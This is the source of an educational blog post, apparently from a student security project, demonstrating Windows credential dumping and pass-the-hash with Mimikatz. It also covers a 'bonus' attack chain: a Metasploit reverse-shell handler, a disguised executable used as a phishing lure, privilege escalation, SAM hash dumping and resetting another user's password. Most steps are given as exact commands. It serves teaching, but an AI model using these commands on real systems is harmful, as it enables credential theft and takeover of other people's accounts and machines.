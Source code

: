 ```yaml
---
title: 'Passing the Hash with Mimikatz'
excerpt: "In this article, I'll walk you through how to use Mimikatz to obtain user passwords from a Windows machine. I'll also show you how to use Mimikatz in order to perform an attack called passing the hash (pth) to escalate your privileges and impersonate a user. Also as a bonus, I'll show you how you can utilise both a Meterpreter reverse shell and a phishing attack in order to get the same outcome but without needing physical access to the target's machine."
publishDate: '2022-04-07'
tags: ['Security']
---
```



<div className="markdown">

<div className="grid w-full my-8 items-start gap-4">
  <Alert variant="destructive" className="w-full gap-4">
    <InfoIcon className="w-5" />
    <AlertTitle>The contents in this article may be outdated</AlertTitle>
    <AlertDescription>
      This article was made as a part of Cookies.sh – a project that I made in
      my university days to educate people about topics in Security.
    </AlertDescription>
  </Alert>
</div>

### What will you learn?

<div className="w-full flex flex-col md:flex-row space-between gap-4">
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      xmlns="http://www.w3.org/2000/svg"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      fill="none"
      stroke="currentColor"
      strokeWidth="2"
      strokeLinecap="round"
      strokeLinejoin="round"
      className="lucide lucide-shield-alert"
    >
      <path d="M20 13c0 5-3.5 7.5-7.66 8.95a1 1 0 0 1-.67-.01C7.5 20.5 4 18 4 13V6a1 1 0 0 1 1-1c2 0 4.5-1.2 6.24-2.72a1.17 1.17 0 0 1 1.52 0C14.51 3.81 17 5 19 5a1 1 0 0 1 1 1z" />
      <path d="M12 8v4" />
      <path d="M12 16h.01" />
    </svg>
    <div className="text-lg font-semibold">Mimikatz</div>
    <small className="text-muted-foreground text-sm">
      Mimikatz is well known to extract plaintexts, passwords, and hash from
      memory.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Metasploit</title>
      <path d="M11.353 0h1.368q4.19.218 8.144 1.616.217.077.216.309-.015 4.033-.002 12.102 0 .81-.093 1.173c-.217.845-.76 1.635-1.326 2.325q-.318.388-1.024 1.046-2.955 2.75-6.01 5.094-.183.14-.516.335h-.17q-.627-.42-.945-.673-3.992-3.184-5.442-4.459-1.348-1.185-2.169-2.611c-.369-.64-.466-1.287-.465-2.099q.01-6.048.002-12.218c0-.183.09-.264.261-.325Q7.145.227 11.352 0ZM7.474 7.864q0-.094.069-.031l2.797 2.516a.374.372 21.2 0 1 .122.276l-.006 4.333a.182.182 0 0 0 .183.184l2.524-.018a.11.11 89.8 0 0 .108-.11q-.007-2.201.01-4.461.002-.173.146-.29 1.397-1.145 2.946-2.393.068-.055.068.032v10.881q0 .092.063.024.794-.865 1.628-1.838.71-.83.984-1.87.26-.989.262-1.997.007-4.754.009-9.768a.136.136 0 0 0-.137-.136q-1.15.004-2.424 0c-.287-.002-.441-.022-.619.149Q14.16 5.317 11.982 7.4a.046.046 0 0 1-.062 0Q9.782 5.437 7.769 3.525c-.234-.222-.515-.381-.843-.373q-1.09.026-2.33.005-.184-.004-.184.18-.003 4.54.005 9.032.002.536.036 1.027c.076 1.093.2 2.126.803 3.021.574.852 1.329 1.656 2.126 2.405q.023.022.054.026.04.006.04-.034z" />
    </svg>
    <div className="text-lg font-semibold">Metasploit</div>
    <small className="text-muted-foreground text-sm">
      The world&apos;s most used penetration testing framework.
    </small>
  </div>
  <div className="w-[15rem] md:w-[25rem] flex flex-col gap-2 p-4">
    <svg
      role="img"
      width="24"
      height="24"
      viewBox="0 0 24 24"
      xmlns="http://www.w3.org/2000/svg"
    >
      <title>Kali Linux</title>
      <path d="M12.778 5.943s-1.97-.13-5.327.92c-3.42 1.07-5.36 2.587-5.36 2.587s5.098-2.847 10.852-3.008zm7.351 3.095l.257-.017s-1.468-1.78-4.278-2.648c1.58.642 2.954 1.493 4.021 2.665zm.42.74c.039-.068.166.217.263.337.004.024.01.039-.045.027-.005-.025-.013-.032-.013-.032s-.135-.08-.177-.137c-.041-.057-.049-.157-.028-.195zm3.448 8.479s.312-3.578-5.31-4.403a18.277 18.277 0 0 0-2.524-.187c-4.506.06-4.67-5.197-1.275-5.462 1.407-.116 3.087.643 4.73 1.408-.007.204.002.385.136.552.134.168.648.35.813.445.164.094.691.43 1.014.85.07-.131.654-.512.654-.512s-.14.003-.465-.119c-.326-.122-.713-.49-.722-.511-.01-.022-.015-.055.06-.07.059-.049-.072-.207-.13-.265-.058-.058-.445-.716-.454-.73-.009-.016-.012-.031-.04-.05-.085-.027-.46.04-.46.04s-.575-.283-.774-.893c.003.107-.099.224 0 .469-.3-.127-.558-.344-.762-.88-.12.305 0 .499 0 .499s-.707-.198-.82-.85c-.124.293 0 .469 0 .469s-1.153-.602-3.069-.61c-1.283-.118-1.55-2.374-1.43-2.754 0 0-1.85-.975-5.493-1.406-3.642-.43-6.628-.065-6.628-.065s6.45-.31 11.617 1.783c.176.785.704 2.094.989 2.723-.815.563-1.733 1.092-1.876 2.97-.143 1.878 1.472 3.53 3.474 3.58 1.9.102 3.214.116 4.806.942 1.52.84 2.766 3.4 2.89 5.703.132-1.709-.509-5.383-3.5-6.498 4.181.732 4.549 3.832 4.549 3.832zM12.68 5.663l-.15-.485s-2.484-.441-5.822-.204C3.37 5.211 0 6.38 0 6.38s6.896-1.735 12.68-.717Z" />
    </svg>
    <div className="text-lg font-semibold">Kali Linux</div>
    <small className="text-muted-foreground text-sm">
      A Linux distribution designed for digital forensics and penetration
      testing.
    </small>
  </div>
</div>

### Pre Set Up

- A target (preferably with consent)
- A windows machine with multiple user account (peferably one which has admin access)
- The Windows Defender (aka Window's firewall) has been turned off
- Mimikatz (and metasploit if you are attempting the bonus feature) downloaded

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```

### The Simple Way

1. Log on as `FakeUser` and demonstrate that without system admin privilege, we can't change the password of another account.
2. Launch `Mimikatz` as an administrator
3. Use command `privilege::debug` to escalate privileges
4. Use command `sekurlsa::logonpasswords` to dump all user passwords.
5. Get the hash of the user we want to impersonate (in this case, it's `User`) and the domain of the `FakeUser` account.
6. Use command:

```
sekurlsa::pth /user:User /domain:[insert_user_domain_here] /ntlm:[insert_hash_here]
```

7. A new console opens up.
8. Demonstrate that the system thinks we are still `FakeUser` but we definitely are `User`.
9. Now try changing the password and it will work. This is an pre-recording I did in case the lightning talk went sideways. If you can't view the recording below, use this link instead: [Mimikatz Video](https://youtu.be/MLizeTI0jr4)

<div className="flex w-full justify-center py-4">
  <iframe
    width="710"
    height="398"
    src="https://www.youtube.com/embed/MLizeTI0jr4"
    allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
    allowFullScreen
    className="rounded-sm"
  ></iframe>
</div>

### Bonus: The Fancy Way

1. Launch Kali
2. Open terminal and get IP using `ip addr`
3. Launch Metasploit using `msfconsole`
4. Use commands:

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP address]
set LPORT 4444
```

5. Open another console and `cd /var/www/html`
6. Start the apache server using `service apache2 start`
7. Switch back to the meterpreter console and type `exploit`
8. Switch over to the Windows machine and talk about how a simple social engineering can be done to gain access.
9. Once launch `GTAVUpdate.exe`, go back to Kali.
10. Show that we are now impersonating this user by `getuid`
11. Escalate our privileges by `getsystem`
12. Show that we are now system admin by `getuid`
13. Load mimikatz using `load mimikatz`
14. Show that we can get user password ntlm hashes using `lsa_dump_sam`
15. Type in `shell`
16. This launches the shell and we can verify that we are system admin by `whoami`
17. Change password using `net user User hello`

### Reflection

From researching various topics about Mimikatz, passing the hash and Windows Defenders to ultimately doing a lightning talk (more like a lightning demo) about how to escalate privileges in Windows, I've learnt a lot about how powerful a tool Windows firewall is to detect malware like Mimikatz and how easy it was to hack someone's account when you have physical access (ie. GAME OVER!!!). The talk I did also spawned a couple of interesting questions about the validity of attacking a corporate network like how I demonstrated it. Spoiler alert: unless you have physical access to the network, you chances of you doing this is low. Even if you successfully manage to download Mimikatz, there are definitely going to be all sorts of red flags going off in the company's IT department.

</div>
